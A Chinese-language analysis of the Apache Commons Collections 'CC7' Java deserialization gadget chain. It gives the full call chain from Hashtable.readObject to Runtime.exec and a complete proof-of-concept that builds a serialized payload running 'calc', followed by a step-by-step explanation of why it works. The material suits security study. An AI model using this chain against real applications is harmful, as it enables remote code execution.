Apache-Commons-Collections 7
目录
版本
CommonsCollections 3.1 - 3.2.1
利用链
HashTable.readObject()
HashTable.reconstitutionPut()
AbstractMapDecorator.equals()
AbstractMap.equals()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
POC
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.*;
public class Main {
public static void main(String[] args) throws Exception {
ChainedTransformer transformerChain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc"})});
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);
lazyMap2.remove("yy");
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc7"));
outputStream.writeObject(hashtable);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc7"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
}
在Hashtable#readObject中存在如下代码块

存在方法reconstitutionPut，进行跟进

这里会将两个LazyMap用AbstractMapDecorator#equals 进行比较。这里的两个key值就分别代表着两个LazyMap。

跟进后发现又有一个equals方法，跟进来到AbstractMap#equals

发现会对传入的TiedMapEntry调用get方法

这样看，链就明了了。
POC分析1
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);
我们发现此处put的值是yy和zZ，我们如果put其他值的话是不能完成这条链的。我们看这个地方。

hash方法在这里会获取key值（在这里就是LazyMap对象）的key值的hash。 所以这里会判断hashtable中的两个key值（也就是两个LazyMap对象）的key值hash是否相同，只有相同才能下一步。 而yy和zZ的hash值在java中是相同的

这个时候可能会有疑问，为什么LazyMap的key值不能设成一样的呢？因为设成一样的会造成如下问题

在readObject时会造成elements元素的值为1

elements值为1，则在此处只能进行一次循环，导致Hashtable#equals方法不能被执行（Hashtable#equals方法需要至少两个hashtable中的key值才能执行，具体逻辑见上文）。
POC分析2
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);
lazyMap2.remove("yy");
我们在序列化前对hashtable进行第二次put操作时，也会调用equals方法

从而会触发lazymap2的get方法，我们这里会发现调用了put方法向lazymap2增加了键值对。

进而导致lazymap2的结构变成了这样

可以发现在value处存在一个ProcessImpl对象，这个对象没有实现序列化接口，不能被序列化，所以如果没有lazymap2.remove("yy")，就会导致在序列化时出现错误。

所以通过lazymap2.remove("yy")，可以帮助我们剔除在hashtable#put时添加进lazymap2中的不可序列化的对象，实现序列化。